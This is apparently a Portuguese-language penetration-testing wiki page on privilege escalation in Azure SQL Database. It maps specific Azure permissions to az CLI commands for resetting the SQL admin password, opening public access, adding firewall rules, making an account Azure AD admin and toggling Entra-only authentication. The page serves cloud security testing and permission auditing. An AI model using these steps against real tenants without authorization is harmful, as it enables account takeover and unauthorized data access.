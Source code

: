 # Az - SQL Database Privesc

{{#include ../../../banners/hacktricks-training.md}}

## SQL Database Privesc

Para mais informações sobre SQL Database, consulte:

{{#ref}}
../az-services/az-sql.md
{{#endref}}

### `Microsoft.Sql/servers/read` && `Microsoft.Sql/servers/write`

Com essas permissões, um usuário pode realizar escalonamento de privilégios ao atualizar ou criar servidores Azure SQL e modificar configurações críticas, incluindo credenciais administrativas. Essa permissão permite que o usuário atualize propriedades do servidor, incluindo a senha do administrador do SQL Server, possibilitando acesso ou controle não autorizado sobre o servidor. Eles também podem criar novos servidores, potencialmente introduzindo infraestrutura sombra para fins maliciosos. Isso se torna particularmente crítico em ambientes onde "Microsoft Entra Authentication Only" está desativado, pois podem explorar a autenticação baseada em SQL para obter acesso irrestrito.
```bash
# Change the server password
az sql server update \
--name <server_name> \
--resource-group <resource_group_name> \
--admin-password <new_password>

# Create a new server
az sql server create \
--name <new_server_name> \
--resource-group <resource_group_name> \
--location <location> \
--admin-user <admin_username> \
--admin-password <admin_password>
```
Além disso, é necessário ter o acesso público habilitado se você quiser acessar a partir de um endpoint não privado. Para habilitá-lo:
```bash
az sql server update \
--name <server-name> \
--resource-group <resource-group> \
--enable-public-network true
```
### `Microsoft.Sql/servers/firewallRules/write`

Um atacante pode manipular regras de firewall em servidores Azure SQL para permitir acesso não autorizado. Isso pode ser explorado para abrir o servidor para endereços IP específicos ou intervalos inteiros de IP, incluindo IPs públicos, permitindo acesso para atores maliciosos. Esta atividade de pós-exploração pode ser usada para contornar controles de segurança de rede existentes, estabelecer persistência ou facilitar movimento lateral dentro do ambiente ao expor recursos sensíveis.
```bash
# Create Firewall Rule
az sql server firewall-rule create \
--name <new-firewall-rule-name> \
--server <server-name> \
--resource-group <resource-group> \
--start-ip-address <start-ip-address> \
--end-ip-address <end-ip-address>

# Update Firewall Rule
az sql server firewall-rule update \
--name <firewall-rule-name> \
--server <server-name> \
--resource-group <resource-group> \
--start-ip-address <new-start-ip-address> \
--end-ip-address <new-end-ip-address>
```
Além disso, a permissão `Microsoft.Sql/servers/outboundFirewallRules/delete` permite que você exclua uma Regra de Firewall.  
NOTA: É necessário ter o acesso público habilitado.

### `Microsoft.Sql/servers/ipv6FirewallRules/write`

Com essa permissão, você pode criar, modificar ou excluir regras de firewall IPv6 em um Azure SQL Server. Isso poderia permitir que um atacante ou usuário autorizado contornasse as configurações de segurança de rede existentes e obtivesse acesso não autorizado ao servidor. Ao adicionar uma regra que permite tráfego de qualquer endereço IPv6, o atacante poderia abrir o servidor para acesso externo.
```bash
az sql server firewall-rule create \
--server <server_name> \
--resource-group <resource_group_name> \
--name <rule_name> \
--start-ip-address <start_ipv6_address> \
--end-ip-address <end_ipv6_address>
```
Além disso, a permissão `Microsoft.Sql/servers/ipv6FirewallRules/delete` permite que você exclua uma Regra de Firewall.  
NOTA: É necessário ter o acesso público habilitado.

### `Microsoft.Sql/servers/administrators/write` && `Microsoft.Sql/servers/administrators/read`

Com essas permissões, você pode privesc em um ambiente Azure SQL Server acessando bancos de dados SQL e recuperando informações críticas. Usando o comando abaixo, um atacante ou usuário autorizado pode se definir ou definir outra conta como administrador do Azure AD. Se "Microsoft Entra Authentication Only" estiver habilitado, você poderá acessar o servidor e suas instâncias. Aqui está o comando para definir o administrador do Azure AD para um servidor SQL:
```bash
az sql server ad-admin create \
--server <server_name> \
--resource-group <resource_group_name> \
--display-name <admin_display_name> \
--object-id <azure_subscribtion_id>
```
### `Microsoft.Sql/servers/azureADOnlyAuthentications/write` && `Microsoft.Sql/servers/azureADOnlyAuthentications/read`

Com essas permissões, você pode configurar e impor "Autenticação Somente do Microsoft Entra" em um Azure SQL Server, o que pode facilitar a escalada de privilégios em certos cenários. Um atacante ou um usuário autorizado com essas permissões pode habilitar ou desabilitar a autenticação somente do Azure AD.
```bash
#Enable
az sql server azure-ad-only-auth enable \
--server <server_name> \
--resource-group <resource_group_name>

#Disable
az sql server azure-ad-only-auth disable \
--server <server_name> \
--resource-group <resource_group_name>
```
{{#include ../../../banners/hacktricks-training.md}}
